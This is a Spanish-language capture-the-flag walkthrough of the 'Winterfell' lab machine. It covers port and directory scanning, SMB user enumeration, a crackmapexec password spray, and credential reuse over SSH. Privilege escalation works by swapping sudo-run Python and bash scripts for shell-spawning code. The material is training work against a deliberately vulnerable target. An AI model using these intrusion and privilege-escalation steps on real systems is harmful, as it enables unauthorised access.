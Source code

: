 Maquina: Winterfell

Autor: Zunderrub

Dificultad: Facil

![Captura de pantalla 2025-01-08 080844](https://github.com/user-attachments/assets/526de997-277e-4655-b712-6729ce7863cb)

ping 172.17.0.2 -c 1 

![Captura de pantalla 2025-01-08 080928](https://github.com/user-attachments/assets/0ef4977f-7b08-4ec8-b122-f1b24e11eb5a)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

![Captura de pantalla 2025-01-08 081029](https://github.com/user-attachments/assets/b897e695-8c4b-4b1d-9c10-42329ec6c4e6)

Vamos a la web, observamos la página de inicio que indica diario de Jon y los botones del navbar son no funcionales

![Captura de pantalla 2025-01-08 084916](https://github.com/user-attachments/assets/34efd52c-ff7d-4731-9b74-5f40c561c740)

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2

![Captura de pantalla 2025-01-08 081059](https://github.com/user-attachments/assets/e57a1613-2953-4b8f-b12e-b5be8a62e224)

Hacemos un escaneo de directorios y encontramos uno que se llama /dragon

Agregamos el directorio a la dirección web y vemos un archivo llamado EpisodioT1, el cual contiene los títulos de la primera temporada de juego de tronos

![Captura de pantalla 2025-01-08 081151](https://github.com/user-attachments/assets/e74e89aa-6b6b-4a77-8696-1cd37883c64c)

smbclient -L 172.17.0.2

Listamos el puerto abierto de smb y vemos que no tenemos acceso

![Captura de pantalla 2025-01-08 081209](https://github.com/user-attachments/assets/02127a29-308a-475e-9a16-7b075f5f901a)

enum4linux 172.17.0.2

Necesitamos algún nombre usuario, usamos enum4linux para buscar usuarios validos para smb

encontramos el user jon

![Captura de pantalla 2025-01-08 081241](https://github.com/user-attachments/assets/1ec7ccb1-d71e-4494-972a-71660386a7ae)

![Captura de pantalla 2025-01-08 081334](https://github.com/user-attachments/assets/b2be5355-152a-4484-9860-0e6abceaf070)

extraemos el password para este usuario, podría ser alguno de los títulos que encontramos, creamos una lista

nano passwords.txt

seacercaelinvierno 
elcaminoreal 
lordnieve
tullidosbastardosycosasrotas 
elloboyelleon 
unacoronadeoro 
ganasomueres 
porelladodelapunta 
baelor 
fuegoyhielo

crackmapexec smb 172.17.0.2 -u jon -p passwords.txt

Usamos Crackmapexec y encontramos el password para jon:seacercaelinvierno

![Captura de pantalla 2025-01-08 081627](https://github.com/user-attachments/assets/9de6bdc6-e6e4-4d03-92a8-929c4eec4a1f)

smbclient \\\\172.17.0.2\\shared -U jon

![Captura de pantalla 2025-01-08 081714](https://github.com/user-attachments/assets/9e03b99f-d3a1-4a35-8b2c-1e3cd234a7cf)

Nos conectamos a SMB usando las credenciales y observamos que tenemos acceso a un directorio llamado proteccion_del_reino

ls

get proteccion_del_reino

Extraemos el archivo proteccion_del_reino en nuestra máquina local

![Captura de pantalla 2025-01-08 081801](https://github.com/user-attachments/assets/4fbfccbe-16bd-46f1-a75d-51b1f3e865ee)

cat proteccion_del_reino

Vemos que el texto contiene un password, que a primera vista podemos ver que se trata de base 64

![Captura de pantalla 2025-01-08 081819](https://github.com/user-attachments/assets/a11f030f-3b1d-4eec-8e5d-5b89ec3227b9)

echo "aGlqb2RlbGFuaXN0ZXI0" | base64 -d

Decodificamos el mensaje y vemos que el password es hijodelanister

![Captura de pantalla 2025-01-08 081834](https://github.com/user-attachments/assets/41c4a308-c8d4-40d4-91a0-bde8da7dea3c)

ssh jon@172.17.0.2

Nos conectamos por SSH con las credenciales

![Captura de pantalla 2025-01-08 081930](https://github.com/user-attachments/assets/4608ce5f-91c6-4232-9227-a0cd50e2aeaf)

ls

cat paraJon

sudo -l

Una vez dentro hacemos un ls y encontramos un archivo que contiene un mensaje sobre una herramienta, si hacemos un sudo -l podemos observar que podemos elevar privilegios como aria usando python3 y un archivo en Python que está oculto

ls -la

Listamos los archivos ocultos y si podemos observar el archivo.mensaje.py, al abrir el mensaje podemos ver que es un script que no nos ayudara mucho

![Captura de pantalla 2025-01-08 082009](https://github.com/user-attachments/assets/a1230086-e008-4c07-93f0-d63be8f80773)

rm -rf .mensaje.py

![Captura de pantalla 2025-01-08 082133](https://github.com/user-attachments/assets/e2d2e117-4c01-44e2-a313-a496737cd301)

nano .mensaje.py

import os;
os.system("/bin/bash")

![Captura de pantalla 2025-01-08 082732](https://github.com/user-attachments/assets/47242388-34b1-4c4f-a959-2a23d197a502)

sudo -u aria /usr/bin/python3 /home/jon/ .mensaje.py

![Captura de pantalla 2025-01-08 082743](https://github.com/user-attachments/assets/49083e2f-5d1e-4304-8fbd-6409df9e990a)

Vemos los permisos y vemos que no podemos editar el archivo, ya que no contamos con los permisos, lo que podemos hacer es eliminar el archivo y crear uno nuevo con el mismo nombre el cual contenga un comando para que nos genere una nueva shell. De esta manera podemos escalar privilegios como aria

sudo -l

Hacemos sudo -l y vemos que podemos escalar como daenerys

![Captura de pantalla 2025-01-08 084141](https://github.com/user-attachments/assets/3a380642-2d25-455d-a8ba-40d21427408c)

sudo -u daenerys ls /home/daenerys/

Lo que los binarios nos permiten es poder leer y listar archivos de propiedad de daenerys, listamos el directorio y podemos observar que tenemos un archivo llamado mensajeParajon

sudo -u daenerys cat /home/daenerys/mensajeParaJon

Leyendo el mensaje podemos ver que nos indica el password, el password debería ser drakaris

![Captura de pantalla 2025-01-08 084214](https://github.com/user-attachments/assets/20bf8196-71fa-40e9-9ea1-21102ac27954)

su daenerys

drakaris

![Captura de pantalla 2025-01-08 084241](https://github.com/user-attachments/assets/513553cf-21a1-4fae-b4e5-67d881fe25ee)

sudo -l

con este usuario buscamos como elevar privilegios y volvemos a realizar un sudo -l y podemos vemos que podemos usar bash y un archivo oculto

![Captura de pantalla 2025-01-08 084258](https://github.com/user-attachments/assets/bff51841-4619-409d-9344-6251b20c52aa)

cat /home/daenerys/.secret/.shell.sh

![Captura de pantalla 2025-01-08 084317](https://github.com/user-attachments/assets/85aaa4df-1124-410e-adf9-bef8c16754ac)

cd /home/daenerys/.secret/

ls

ls -la

leemos el archivo y es una bash que establece conexión con otra dirección IP, pero si observamos los permisos y esto lo tenemos nosotros, así que para elevar privilegios solo debemos editarlo

![Captura de pantalla 2025-01-08 084338](https://github.com/user-attachments/assets/04618182-d87f-4554-8403-ea911fb946d9)

nano .shell.sh

cat .shell.sh

#!/bin/bash

bash

![Captura de pantalla 2025-01-08 084708](https://github.com/user-attachments/assets/ba48a31f-611c-490a-8881-8cdc85e23009)

sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh

whoami

Para obtener el root solo modificamos el archivo y luego ejecutamos el archivo. De esta manera obtendríamos la shell con permisos de root.

![Captura de pantalla 2025-01-08 084729](https://github.com/user-attachments/assets/713f3ca3-2e4c-41c6-8a99-ae2aa63d496a)
